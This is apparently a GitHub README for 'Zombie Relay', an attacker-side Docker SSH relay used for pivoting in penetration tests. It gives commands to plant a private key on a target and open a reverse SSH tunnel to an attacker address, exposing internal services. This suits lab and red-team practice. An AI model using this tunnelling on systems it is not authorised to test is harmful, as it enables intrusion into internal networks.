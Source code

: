 # Zombie Relay

[PoC post](https://pwnyour.site/2025-04-19-zombie-relay.html) on my blog.

## Usage

```sh
git clone https://github.com/0xyy66/ZombieRelay.git
cd ZombieRelay
docker compose up
```

Everytime you create the container, the compose will automatically create a new private key. Drop it on the target to connect to the container.

Run the following command to copy the key from the container to your host.

```sh
docker cp $(docker ps -l -q):/root/.ssh/id_ed25519 . 
```

### Tunnel a remote service on your host

In order to correctly tunnel the remote service on your host, you need to drop the private key printed by docker (id_ed25519) and run the following command on the target (assuming the target service that interests you runs locally on port 9090).

```sh
ssh -i id_rsa -p 2224 -R *:9090:127.0.0.1:9090 root@10.10.14.20 -N -f
```

The command above corresponds to: `ssh -i <private_key> -p <attacker_ssh_port> -R <attacker_iface>:<attacker_service_port>:<target_iface>:<target_service_port> root@<attacker_ip> -N -f`

### Config

You may need to edit the docker-compose.yaml file to modify the mapped ports or add more.

By default, the following ports are mapped:
- 2224:22 - OpenSSH exposed on your host on port 2224
- 9090:9090 - You can tunnel a remote application on port 9090, it will become accessible on localhost:9090


